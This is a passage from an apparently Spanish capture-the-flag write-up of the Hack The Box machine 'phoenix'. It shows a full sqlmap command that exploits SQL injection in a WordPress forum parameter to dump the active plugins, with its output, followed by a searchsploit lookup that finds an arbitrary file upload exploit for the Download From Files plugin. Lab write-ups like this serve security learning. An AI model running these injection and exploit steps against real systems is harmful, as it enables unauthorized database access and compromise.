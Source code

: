No son válidos por SSH. Enumero el resto de plugins que están instalados

```null
sqlmap -u "https://phoenix.htb/forum/?subscribe_topic=1" --level=2 --risk=2 --sql-query="SELECT option_value FROM wp_options WHERE option_name = 'active_plugins';" --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.2#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:52:28 /2023-04-04/

[11:52:29] [INFO] resuming back-end DBMS 'mysql' 
[11:52:29] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('asgarosforum_unique_id=642c0f66792df;asgarosforum_unread_cleared=1000-01-01%...%3A00%3A00'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
.php";i:1;s:25:"adminimize/adminimize.php";i:2;s:31:"asgaros-forum/asgaros-forum.php";i:3;s:43:"download-from-files/download-from-files.php";i:4;s:67:"miniorange-2-factor-authentication/miniorange_2_factor_settings.php";i:5;s:47:"photo-gallery-builder/photo-gallery-builder.php";i:6;s:29:"pie-register/pie-register.php";i:7;s:45:"simple-local-avatars/simple-local-avatars.php";i:8;s:38:"timeline-event-history/timeline-wp.php";}
SELECT option_value FROM wp_options WHERE option_name = 'active_plugins': 'a:9:{i:0;s:45:"accordion-slider-gallery/accordion-slider.php";i:1;s:25:"adminimize/adminimize.php";i:2;s:31:"asgaros-forum/asgaros-forum.php";i:3;s:43:"download-from-files/download-from-files.php";i:4;s:67:"miniorange-2-factor-authentication/miniorange_2_factor_settings.php";i:5;s:47:"photo-gallery-builder/photo-gallery-builder.php";i:6;s:29:"pie-register/pie-register.php";i:7;s:45:"simple-local-avatars/simple-local-avatars.php";i:8;s:38:"timeline-event-history/timeline-wp.php";}'

[*] ending @ 14:35:25 /2023-04-04/
```

El más destacable es ```download-from-files.php```. Tiene un exploit asociado

```null
searchsploit download from files
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Download From Files 1.48 - Arbitrary File Upload                                                                                                              | php/webapps/50287.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
